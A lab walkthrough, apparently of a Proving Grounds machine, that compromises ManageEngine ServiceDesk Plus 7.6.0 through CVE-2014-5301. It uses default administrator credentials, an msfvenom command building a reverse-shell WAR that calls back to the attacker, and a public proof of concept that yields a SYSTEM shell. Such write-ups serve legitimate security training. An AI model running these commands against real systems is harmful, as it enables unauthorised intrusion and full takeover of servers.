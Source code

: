 # Recon

## nmapAutomator.sh (Full)
```
$ sudo ./nmapAutomator.sh -H helpdesk.pg -t Full -o full

PORT     STATE SERVICE       VERSION
135/tcp  open  msrpc         Microsoft Windows RPC
139/tcp  open  netbios-ssn   Microsoft Windows netbios-ssn
445/tcp  open  microsoft-ds  Windows Server (R) 2008 Standard 6001 Service Pack 1 microsoft-ds (workgroup: WORKGROUP)
3389/tcp open  ms-wbt-server Microsoft Terminal Service
8080/tcp open  http          Apache Tomcat/Coyote JSP engine 1.1
|_http-server-header: Apache-Coyote/1.1
| http-cookie-flags: 
|   /: 
|     JSESSIONID: 
|_      httponly flag not set
|_http-title: ManageEngine ServiceDesk Plus
Service Info: Host: HELPDESK; OS: Windows; CPE: cpe:/o:microsoft:windows, cpe:/o:microsoft:windows_server_2008:r2

Host script results:
|_clock-skew: mean: 2h24m02s, deviation: 4h02m29s, median: 4m02s
| smb-os-discovery: 
|   OS: Windows Server (R) 2008 Standard 6001 Service Pack 1 (Windows Server (R) 2008 Standard 6.0)
|   OS CPE: cpe:/o:microsoft:windows_server_2008::sp1
|   Computer name: HELPDESK
|   NetBIOS computer name: HELPDESK\x00
|   Workgroup: WORKGROUP\x00
|_  System time: 2022-08-30T16:01:57-07:00
|_nbstat: NetBIOS name: HELPDESK, NetBIOS user: <unknown>, NetBIOS MAC: 00:50:56:ba:dc:16 (VMware)
| smb2-security-mode: 
|   2.0.2: 
|_    Message signing enabled but not required
| smb2-time: 
|   date: 2022-08-30T23:01:57
|_  start_date: 2022-08-30T22:52:45
| smb-security-mode: 
|   account_used: guest
|   authentication_level: user
|   challenge_response: supported
|_  message_signing: disabled (dangerous, but default)
```

# Enumeration

## Port 8080

Since this is the only port with http service, I start here. We see ManageEngine ServiceDesk Plus version 7.6.0.

![servicedesk-version.png](../_resources/servicedesk-version.png)

A quick `searchsploit "manageengine 7.6"` returns a SQLi vuln for a very old CVE-2014-5301.

![servicedesk-sqli.png](../_resources/servicedesk-sqli.png)

# Exploit

I end up using this poc:
https://raw.githubusercontent.com/PeterSufliarsky/exploits/master/CVE-2014-5301.py

I see that credentials are required, so Googling for the default credentials returns `administrator:administrator`, and to my surprise this works!

![7b96d92f003cba725ef618d4e282b9f5.png](../_resources/7b96d92f003cba725ef618d4e282b9f5.png)

Now I'll create an evil `.war` using `msfvenom` for my reverse shell.

`msfvenom -p java/shell_reverse_tcp LHOST=tun0 LPORT=80 -f war > shell.war`

![2000e3118bf387d447f84e2fbb877cd4.png](../_resources/2000e3118bf387d447f84e2fbb877cd4.png)

We can now run the script as so:

`python3 CVE-2014-5301.py helpdesk.pg 8080 administrator administrator shell.war`

![f09a86c816354c05f2b60966aaa5dc28.png](../_resources/f09a86c816354c05f2b60966aaa5dc28.png)

With my listener up on port 80, we quickly get a shell back as `nt authority\system`.

![46978d193baf7a2261f7591bd6044399.png](../_resources/46978d193baf7a2261f7591bd6044399.png)
